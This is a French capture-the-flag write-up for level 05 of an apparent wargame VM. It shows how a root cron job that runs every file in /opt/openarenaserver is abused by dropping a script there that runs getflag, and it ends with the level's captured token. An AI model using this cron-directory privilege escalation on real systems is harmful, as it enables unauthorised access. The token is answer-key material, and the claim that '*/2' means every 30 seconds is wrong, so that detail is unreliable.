 # LEVEL05

Quand on se connecte en **ssh** nous pouvont voir ce message : 

```
level05@192.168.56.103's password: 
You have new mail.
```

Nous pouvons faire un echo $MAIL pour trouver le fichier local des mails (*/var/mail/level05*)

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le fichier level05 est un cronjob, il est éxécuté toutes les 30 secondes.

fichier **openarenaserver** :

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Nous pouvons voir qu'il parcours tous les fichiers dans /opt/openarenaserver et les exécutera dans un shell bash.
Nous devons créer un script pour éxécuter la commande `getflag` 

```
#!/bin/sh

getflag > /tmp/flag05
```

Check flag.Here is your token : viuaaale9huek52boumoomioc

